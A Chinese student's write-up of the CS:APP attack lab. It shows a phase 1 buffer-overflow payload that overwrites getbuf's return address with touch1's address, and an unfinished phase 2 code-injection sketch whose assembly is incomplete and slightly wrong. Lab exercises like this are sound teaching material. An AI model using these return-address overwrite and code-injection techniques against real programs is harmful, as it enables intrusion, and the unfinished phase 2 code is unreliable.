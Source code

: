 # lab3 attacklab

准备工作：获取2个目标代码的汇编代码：  
objdump -d ctarget > ctarget.s  
objdump -d rtarget > rtarget.s

## phase 1(code injection level1)

要求：在执行完test()中的getbuf()函数后，不是返回到test()中，而是去执行touch1()函数。  

题解：只需要把栈上面的返回地址覆盖成touch1函数的地址004017c0即可。
但因为小端的问题，所以地址要反过来写：c0 17 40 00

可以看到getbuf函数一开始先给栈分配了40个字节的空间，所以需要把这40个字节填满，再写入地址：
(cl1hex.txt的内容)

41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50 /\* 40个字节 \*/  
c0 17 40 00 /\* touch1()的地址 \*/

运行phase1的操作：  
./hex2raw < cl1hex.txt > cl1raw.txt  
./ctarget -q < cl1raw.txt


## phase2 (code injection ctarget level2)

要求：在执行完test()中的getbuf()函数后，执行touch2()函数，并且需要给touch2()传递一个整型的参数(cookie)

题解：
汇编代码：
sub dif,%rsp #dif还要算, 让rsp指向 touch2的位置
mov 0x59b997fa, %rdi
retq
touch2的地址。
补全40个字节。
返回到 injection code 第一条指令的位置

把栈给画出来即可(注意指令是从下往上执行的，即从地址低的地方 向地址高的地方执行)：
